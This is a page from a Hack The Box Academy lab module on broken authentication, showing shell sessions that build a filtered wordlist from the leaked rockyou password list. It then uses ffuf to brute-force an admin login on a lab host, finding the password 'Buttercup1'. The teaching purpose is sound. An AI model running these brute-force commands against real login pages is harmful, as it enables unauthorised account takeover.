 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/80/section/837
// Platform Version: V1
// Module ID: 80
// Module Name: Broken Authentication
// Module Difficulty: Medium
// Section ID: 837
// Section Title: Brute-Forcing Passwords
// Page Title: Hack The Box - Academy
// Page Number: 4
-->

# Brute-Forcing Passwords

**Module Name:** Broken Authentication **Page Number:** 4

#### 

#### BROKEN AUTHENTICATION

# Brute-Forcing Passwords

## Brute-Forcing Passwords

![https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_1.png](https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_1.png)

``` shell-session
ndefstathiou@htb[/htb]$ wc -l /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt

14344391 /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

``` shell-session
ndefstathiou@htb[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

ndefstathiou@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```

![https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_2.png](https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_2.png)

``` shell-session
ndefstathiou@htb[/htb]$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
```

![https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_3.png](https://academy.hackthebox.com/storage/modules/269/bf/pw_bf_3.png)

# 

# 

#### Questions

####